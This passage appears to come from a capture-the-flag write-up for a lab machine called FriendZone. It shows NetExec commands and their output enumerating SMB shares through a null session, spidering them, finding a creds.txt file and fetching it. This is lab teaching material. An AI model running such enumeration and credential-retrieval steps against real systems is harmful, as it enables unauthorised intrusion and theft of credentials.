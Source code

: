 Let’s check if the ftp server allow anon login:

```bash
ftp 10.10.10.123
```

Denied.

Let’s see if smb allow Null authentication:

```bash
nxc smb 10.10.10.123 -u '' -p '' --shares

SMB         10.10.10.123    445    FRIENDZONE       [*] Enumerated shares
SMB         10.10.10.123    445    FRIENDZONE       Share           Permissions     Remark
SMB         10.10.10.123    445    FRIENDZONE       -----           -----------     ------
SMB         10.10.10.123    445    FRIENDZONE       print$                          Printer Drivers
SMB         10.10.10.123    445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.10.10.123    445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))

```

```bash
nxc smb 10.10.10.123 -u '' -p '' --spider Development -- regex .

SMB         10.10.10.123    445    FRIENDZONE       [*] Unix - Samba (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)                            
SMB         10.10.10.123    445    FRIENDZONE       [+] \: (Guest)                                                                                       
SMB         10.10.10.123    445    FRIENDZONE       [*] Started spidering                                                                                
SMB         10.10.10.123    445    FRIENDZONE       [*] Spidering .                                                                                      
SMB         10.10.10.123    445    FRIENDZONE       //10.10.10.123/Development/. [dir]                                                                   
SMB         10.10.10.123    445    FRIENDZONE       //10.10.10.123/Development/.. [dir]                                                                  
SMB         10.10.10.123    445    FRIENDZONE       [*] Done spidering (Completed in 0.09617900848388672) 

nxc smb 10.10.10.123 -u '' -p '' --spider general --regex .

SMB         10.10.10.123    445    FRIENDZONE       [*] Unix - Samba (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)                            
SMB         10.10.10.123    445    FRIENDZONE       [+] \: (Guest)                                                                                       
SMB         10.10.10.123    445    FRIENDZONE       [*] Started spidering                                                                                
SMB         10.10.10.123    445    FRIENDZONE       [*] Spidering .                                                                                      
SMB         10.10.10.123    445    FRIENDZONE       //10.10.10.123/general/. [dir]                                                                       
SMB         10.10.10.123    445    FRIENDZONE       //10.10.10.123/general/.. [dir]                                                                      
SMB         10.10.10.123    445    FRIENDZONE       //10.10.10.123/general/creds.txt [lastm:'2018-10-10 00:52' size:57]                                  
SMB         10.10.10.123    445    FRIENDZONE       [*] Done spidering (Completed in 0.09600543975830078) 

nxc smb 10.10.10.123 -u '' -p '' --share general --get-file creds.txt

```